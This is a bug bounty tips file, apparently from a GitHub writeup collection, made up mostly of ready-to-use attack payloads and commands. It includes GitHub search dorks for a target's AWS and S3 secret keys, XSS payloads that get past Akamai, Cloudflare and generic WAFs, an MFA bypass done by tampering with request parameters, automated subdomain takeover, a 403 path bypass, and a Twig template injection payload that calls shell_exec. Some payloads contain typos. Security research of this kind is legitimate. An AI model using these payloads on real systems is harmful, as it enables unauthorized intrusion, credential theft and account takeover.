 # Bug Bounty Tips File -2
## Github Search for Sensitive Info
```
org:Target "bucket_name"
org:Target "aws_access_key"
org:Target "aws_secret_key"
org:Target "S3_BUCKET"
org:Target "S3_ACCESS_KEY_ID"
org:Target "S3_SECRET_ACCESS_KEY"
org:Target "S3_ENDPOINT"
org:Target  "AWS_ACCESS_KEY_ID"
org:Target  "list_aws_accounts"
```
## XSS Firewall Bypass Techniques
1. Check if firewall is blocking only lowercases
```js
<sCRipT>alert(1)</sCRiPt>
```
2. Try to break firewall regex with new line (\r\n)
```js
<script>%0aalert(1)</script>
```
3. Try double encoding
`%2522`
4. Testing for recursive filters, if firewall removes text in red, we will have clear payload
```js
<scr<script>ipt<alert(1);</scr<script>ipt>
```
5. Injecting anchor tag without whitespaces
```js
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
```
6. Try to Bypass whitespaces using Bullet
```js
<svg•onload=alert(1)>
```
7. Try to chnage the Request Method
```js
GET /?a=xss

POST /?a=xss
```
**New Payload to Bypass WAF**
```js
<script>alert?.(document?.domain)</script>
```
## Find xmlrpc in single shot
```sh
cat domain.txt | assetfinder --subs-only | httprobe | while read url; do xml=$(curl -s -L $url/xmlrpc.php | grep 'XML-RPC');echo -e "$url -> $xml";done | grep 'XML-RPC' | sort -u
```
## Bypass Multifactor Authentication
1. Notice both the request while login when 2FA is enabled and disabled
2. While 2FA is Disabled :

**Request**
```json
{"email":"abc@mail.com","pass":"password","mfa":null,"code":""}
```
**Response**
```json
Location : https://abc.com/user/dashboard 
```
3. While 2FA is Enabled :

**Resuest**
```json
{"email":"abc@mail.com","pass":"password","mfa":true,"code":""}
```
**Response**
```json
Location : https://abc.com/v1/proxy/authentication/authenticate
```
4. Tamper the Parameter and change the "mfa":null and "code":"" to disable the 2FA
```json
Location : https://abc.com/user/dashboard
```
## DOM XSS
![dom-xss](/Writeups/Bug-Bounty-Tips/img/20201007_195906.jpg)
## WAF Bypass 
![waf-bypass](/Writeups/Bug-Bounty-Tips/img/waf-bypass.jpg)
## Automate Subdomain Takeover
```sh
cat subfinder -dL domain.txt -o sub.txt && subjack -w sub.txt |toslack
```
***Put it on cron to run once a day***
## Akami WAF Bypass
Reflection in "a" tag, attribute context:
```
< => allowed
<anything> => access denied
quotes => allowed
onanything= => access denied
/ or \ or eval() => access denied
```
**Bypass**
```js
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
```
## Find Reflected XSS
1. subfinder + httprobe
```sh
subfinder -d abc.com | httprobe -c 100 > target.txt
cat target.txt | waybackurls | gf xss | kxss
```
2. Check the URL which have all the special characters unfiltered and the paramater was callback=
3. Check Portswigger XSS CheatSheet for more information.
## XSS Cloudflare Bypass
```js
<x/onpointerRawupdate=confirm%26Ipar;1)//x
```
## Bypass Admin Location
1. If GET /admin/ is 403
2. Try this GET /admin;/
## Server SIde Template Injection
```sh
{{_self.env.registerUndefinedFilterCallback('shell_exec')}}{{_self.env.getFilter('dir)}}
```
**Tool for Burpsuite**
> ***https://github.com/antichown/0x94TR***   
> ***For more info***   
> ***https://youtu.be/TrQi9iwtA0k***

